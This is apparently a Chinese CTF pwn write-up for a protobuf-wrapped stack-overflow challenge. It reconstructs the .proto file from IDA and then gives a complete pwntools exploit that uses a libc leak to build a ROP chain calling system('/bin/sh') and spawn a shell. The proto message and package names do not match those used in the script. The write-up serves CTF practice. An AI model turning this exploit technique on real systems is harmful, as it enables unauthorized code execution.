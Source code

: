 1. 这是一个c++程序，我们直接定位到对应的字段，根据ida中的内容来还原.proto源文件：

   ![image-20240915211132399](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409152111531.png)

   直接手撕ida，还原出.proto源文件如下，生成python包后就能直接使用：

   ```protobuf
   syntax = "proto2";
   package bkb;
    
   message devicemsg {
     optional string name = 1;
     optional string phoneNumber = 2;
     required bytes buffer = 3;
     required uint32 size = 4;
   }
   ```

2. 进入主要函数查看，就是一个简单的栈溢出，完整的EXP：

   ```python
   from pwn import *
   import lzl_pb2
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   choose = 0
   
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28888)
       libc = ELF('./lib/libc_2.31-0ubuntu9.9_amd64.so')
       # elf = ELF("./pwn")
   else :              # 本地
       success("本地")
       p = process("./pwn")
       libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
       # ld = ELF("ld.so") 
       # elf = ELF("./pwn")
   
   def create_payload(name,phoneNumber,buffer,size):
       msg = lzl_pb2.protoMessage()
       msg.name = name
       msg.phoneNumber = phoneNumber
       msg.buffer = buffer
       msg.size = size
       return msg.SerializeToString()
   
   p.recvuntil(b"Gift: ")
   libc_base = eval(p.recv(14)) - libc.symbols["puts"]
   success("libc_base  ==>"+hex(libc_base))
   
   system_addr = libc_base + libc.sym["system"]
   sh_addr = libc_base + next(libc.search(b"/bin/sh"))
   success("system_addr==>"+hex(system_addr))
   success("sh_addr==>"+hex(sh_addr))
   
   pop_rdi = 0x0000000000028215 + libc_base
   pb = b"a"*(0x210+8) + p64(pop_rdi+1) + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
   payload = create_payload("lzl","6",pb,len(pb))
   p.send(payload)
   
   p.interactive()
   ```